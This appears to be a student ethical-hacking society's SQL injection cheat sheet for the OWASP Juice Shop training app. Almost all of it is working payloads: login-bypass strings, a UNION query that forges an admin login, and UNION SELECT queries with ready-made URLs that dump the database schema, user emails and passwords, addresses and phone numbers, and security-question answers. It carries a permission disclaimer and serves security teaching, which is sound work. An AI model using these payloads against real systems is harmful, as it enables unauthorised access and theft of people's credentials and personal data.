 **Tags:**
- #SQLi
- #Cheatsheet 

**Category:**
- #Web-Exploitation

---


# Disclaimer

All scripts developed for educational purposes during sessions with Sheffield Ethical Student Hackers Society, and executed on OWASP's dedicated Juice Shop training platform. Do not execute these scripts unless you have explicit permission. SESH Code of Conduct can be found [here](https://shefesh.com/downloads/SESH%20Code%20of%20Conduct.pdf).

# Logging In

All following statements to be pasted into the 'username' field in the login form, with any arbitrary password.

**Basic SQL Injection for logging in as the first user in the database**

`' OR 1=1;--`

**Log in as a user with an email similar to 'jim'**

`' OR 1=1 AND email LIKE('%jim%');--`

**Log in as a user that does not exist in the database**

`' UNION SELECT * FROM (SELECT 200 as 'id', 'chad' as 'username', 'chadd@juice-sh.op' as 'email', 'chadd' as 'password', 'admin' as 'role', '' as 'deluxeToken' , '1.3.3.7' as 'lastLoginIp' , 'assets/public/images/uploads/default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '1999-08-16 14:14:41.644 +00:00' as 'createdAt', '1999-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--`

# Data Exfiltration

These scripts executed by a call to exposed `/rest/products/search` API - SQL statements illustrated for clarity, but scripts best executed by visiting the URL directly.

## Stealing the Schema

SQL Statement:

`qwert')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--`

Test it at the following URL:

https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20sql,%20%272%27,%20%273%27,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20sqlite_master--

## Stealing emails and passwords

SQL Statement:

`qwert')) UNION SELECT email, password, '3', '4', '5', '6', '7', '8', '9' FROM Users--`

Test it at the following URL:

https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20email,%20password,%20%273%27,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20Users--

## Stealing names, addresses, and mobile numbers

SQL Statement:

`qwert')) UNION SELECT fullName, streetAddress, city, country, mobileNum, '6', '7', '8', '9' FROM Addresses--`

Test it at the following URL:

https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20fullName,%20streetAddress,%20%27city%27,%20%27country%27,%20%27mobileNum%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20Addresses--

## Stealing captcha questions and answers

SQL Statement:

`qwert')) UNION SELECT captcha, answer, '3', '4', '5', '6', '7', '8', '9' FROM Captchas--`

Test it at the following URL:

https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20captcha,%20answer,%20%273%27,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20Captchas--

## Stealing security questions and answers

SQL Statement:

`qwert')) UNION SELECT q.question, a.answer, a.UserID, '4', '5', '6', '7', '8', '9' FROM SecurityQuestions q INNER JOIN SecurityAnswers a ON q.id = a.id--`

Test it at the following URL:

https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20q.question,%20a.answer,%20a.UserID,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20SecurityQuestions%20q%20INNER%20JOIN%20SecurityAnswers%20a%20ON%20q.id%20=%20a.id--